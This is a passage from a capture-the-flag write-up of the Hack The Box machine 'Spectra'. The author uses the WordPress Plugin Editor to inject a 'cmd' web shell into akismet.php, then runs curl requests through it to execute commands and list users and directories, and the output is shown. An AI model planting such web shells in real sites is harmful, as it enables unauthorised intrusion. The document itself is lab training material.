 // So again to the search i notice another interesting location at: 'Plugins' -> 'Plugin Editor' 

// There we have permissions to edit akismet/akismet.php file 

// and using this [source](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) i inject value cmd that it basically a web-shell

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Spectra/8.png)

// Now lets test it

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=id
    uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
    Hi there!  I'm just a plugin, not much I can do when called directly.
    
// It worked !!, lets check the users

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=ls+/home
    chronos
    katie
    nginx
    root
    user


// Searching(a lot) in the machine got me finally to streing file called 'autologin.conf.orig'

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=ls+/opt

    VirtualBox
    autologin.conf.orig
    broadcom
    displaylink
    eeti
    google
    neverware
    tpm1
    tpm2

